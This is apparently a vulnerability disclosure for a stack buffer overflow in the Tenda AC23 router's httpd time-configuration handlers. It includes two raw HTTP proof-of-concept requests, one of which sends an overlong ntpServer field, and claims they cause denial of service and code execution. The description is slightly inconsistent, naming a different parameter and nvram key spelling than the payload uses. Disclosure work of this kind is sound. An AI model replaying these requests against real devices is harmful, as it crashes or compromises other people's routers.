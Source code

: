 # Tenda AC23(V16.03.07.45_cn) has a Stack Buffer Overflow Vulnerability

## 1.Product 

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.jpg)

1. **product information: https://www.tenda.com.cn/** 
2. **firmware download:https://www.tenda.com.cn/download/detail-3420.html**

----

## 2.**Firmware**

**Hardware version:V1.0**

**Software version:V16.03.07.45**

## 3.vulnerability details

The vulnerability is in `/bin/httpd`, the function `formSetSysTime` `formGetSysTime`. The function `formSetSysTime` can set nvram val `sys.timefixper` to `v3`, which can be set through POST parameter `timePeriod`

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/2.png)

and in function `formGetSysTime`, the function calls `GetValue(“sys.timefixer”, v16)` to set the string to `v16` which is on the stack. So there is a stack overflow  vulnerability. 

By analyzing the funtion `GetValue` and `SetValue`, the max size of the string we can get from the function `GetValue` is `0x5DC`. It’s bigger than the size of `v16`, so there will be a bufferoverflow vulnerability. 

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/3.png)

## 4.poc

1. You need to login and **replace the Cookie: password filed in poc**.
2. By sending  poc1 and poc2 (remember to send poc2), it can cause dos and rce. 

```
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 105
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.836749282878861&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07admvpcvb
Connection: close

timeType=sync&timePeriod=86400&ntpServer=time.windows.comaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&timeZone=20%3A00&time=2000-01-01%2000%3A58%3A22
```

```
GET /goform/GetSysTimeCfg?0.6678734602604752 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/system_time.html?random=0.836749282878861&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07admvpcvb
Connection: close

```

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/4.png)

----

### 5.Author

*Wangjingping*
